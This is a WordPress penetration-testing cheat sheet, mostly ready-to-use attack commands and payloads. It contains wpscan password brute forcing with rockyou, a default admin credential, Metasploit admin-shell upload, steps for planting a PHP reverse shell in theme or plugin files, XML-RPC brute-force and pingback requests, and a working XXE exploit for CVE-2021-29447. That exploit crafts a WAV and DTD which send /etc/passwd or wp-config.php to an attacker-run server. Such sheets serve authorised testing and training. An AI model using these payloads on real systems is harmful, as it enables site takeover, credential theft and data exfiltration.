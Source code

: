 ```yaml
---
title: WordPress Pentesting
description: WordPress is a content management system.
tags:
    - CMS
    - Web
refs:
date: 2023-02-05
draft: false
---
```


## Enumeration

```sh
nmap --script http-wordpress-brute
nmap --script http-wordpress-enum --script-args type="plugins",search-limit=1500 -p 80 <target-ip>
nmap --script http-wordpress-users -p 80 <target-ip>
nmap --script http-wordpress-* -p 80 <target-ip>
```

### WpScan

**[Wpscan](https://github.com/wpscanteam/wpscan)** is a WordPress security scanner which can brute force credentials.

```sh
wpscan --url http://<target-ip> -P wordlist.txt

# --rua: random user agent
# --http-auth username:password
# -e: enumerate
#  ap: All plugins
#  at: All themes
#  tt: Timthumbs
#  cb: Config backups
#  dbe: Db exports
#  u: User IDs range
#  m: Media IDs range
wpscan --rua -e ap,at,tt,cb,dbe,u,m --url https://vulnerable.com -P /usr/share/wordlists/rockyou.txt

# Specifify username (-U)
wpscan --rua -e ap,at,tt,cb,dbe,u,m --url https://vulnerable.com -U username -P /usr/share/wordlists/rockyou.txt
```

<br />

## Version Detection

There is the meta tag for WordPress in the head tag of the HTML source code.

```html
<meta name="generator" content="WordPress x.x.x" />
```

<br />

## Common Directories

```sh
/author/admin/
/index.php/author/admin/
/license.txt
/readme.html
/robots.txt

/wp-admin/
/wp-admin/admin-ajax.php
/wp-admin/upload.php
/wp-content/
/wp-content/uploads/
/wp-includes/
/wp-login.php

/?author=1
/?author=2

# Private/Draft Posts (WordPress <= 5.2.3) 
/?static=1
```

<br />

## Try to Login with Default Credential

Access to **/wp-login.php** and use the default credential in the login form.

```txt
admin:password
```

<br />

## Reverse Shell

To achieve reverse shell, we need the admin credential.

### Metasploit

```bash
msfconsole
msf> use exploit/unix/webapp/wp_admin_shell_upload
msf> set RHOSTS <target-ip>
msf> set LHOST <local-ip>
msf> set USERNAME admin
msf> set PASSWORD admin
msf> check
msf> run
meterpreter> shell
```

### PHP Reverse Shell Injection

- **Theme**

    1. Access to dashboard (**/wp-admin/**).
    2. Move to **"Appearance"** and select theme e.g. "Twenty Seventeen".
    3. Click **"Theme Editor"** or **"Editor"** in the **"Appearance"** section.
    4. In the theme editor, click **"404 Template (404.php)"** on the right.
    5. Copy and paste the script for Reverse Shell [here](https://github.com/pentestmonkey/php-reverse-shell).
    6. Edit **"$ip"** and **"$port"** to assign local machine ip and port in the script.
    7. In your terminal, start netcat listener for getting the incoming connection from the website.

        ```sh
        nc -lvnp <local-port>
        ```

    8. Access "https://vulnerable.com/wp-content/themes/twentyseventeen/404.php". We should get the target shell in the netcat listener.

- **Plugins**

    1. Go to Plugins → Plugin Editor
    2. Insert the PHP reverse shell code into the file (e.g. plugin_name.php) and update $ip and $port.
    3. Start netcat listener “nc -lvnp 4444” in terminal.
    4. Then access to https://example.com/wp-content/plugins/\<plugin>/\<plugin>.php
    5. We should get a shell.

<br />

## XML-RPC (xmlrpc.php)

- **Get All Methods**

    ```xml
    POST /xmlrpc.php HTTP/1.1
    Host: vulnerable.com
    ...

    <?xml version="1.0" encoding="utf-8"?> 
    <methodCall> 
    <methodName>system.listMethods</methodName> 
    <params></params> 
    </methodCall>
    ```

- **Ping Back**

    Use **[PostBin](https://www.toptal.com/developers/postbin/)** to confirm the results.

    ```xml
    POST /xmlrpc.php HTTP/1.1
    Host: vulnerable.com
    ...

    <?xml version="1.0" encoding="utf-8"?>
    <methodCall>
    <methodName>pingback.ping</methodName>
    <params>
    <param><value><string>https://www.toptal.com/developers/postbin/xxxxxxxxxxxxx-xxxxxxxxxxxxx</string></value></param>
    <param><value><string>http://vulnerable.com</string></value></param>
    </params>
    </methodCall>
    ```

- **User Enumeration**

    It’s recommended to use Burp Intruder or Turbo Intruder for brute forcing username/password.

    ```xml
    POST /xmlrpc.php HTTP/1.1
    Host: vulnerable.com
    ...

    <?xml version="1.0" encoding="utf-8"?> 
    <methodCall> 
    <methodName>wp.getUsersBlogs</methodName> 
    <params>
    <param><value>{username}</value></param>
    <param><value>{password}</value></param>
    </params> 
    </methodCall>
    ```

<br />

## XXE (CVE-2021-29447)

If you have a normal user credential, upload the exploitable media (.WAV) with XXE and reveal sensitive information.  
First off, create **"exploit.wav"**.

```sh
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://<local-ip>:9001/exploit.dtd'"'"'>%remote;%init;%trick;] >\x00'> exploit.wav
```

Next create **"exploit.dtd"**.

```xml
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!-- <!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=../wp-config.php"> -->
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://<local-ip>:9001/?p=%file;'>">
```

Then start PHP server in local machine.

```sh
php -S 0.0.0.0:9001
```

In target website, login as normal user and go to **"Media"**, click **"Add New"**.  
Upload the **"exploit.wav"**.  
After that, open the WAV file. You should see the information is revealed in your console.  

### Decode Base64

To decode the Base64, create **“decode.php”** as following.

```php
<?php echo zlib_decode(base64_decode('<Base64_Here>')); ?>
```

Execute the script to decode it.

```bash
php decode.php
```
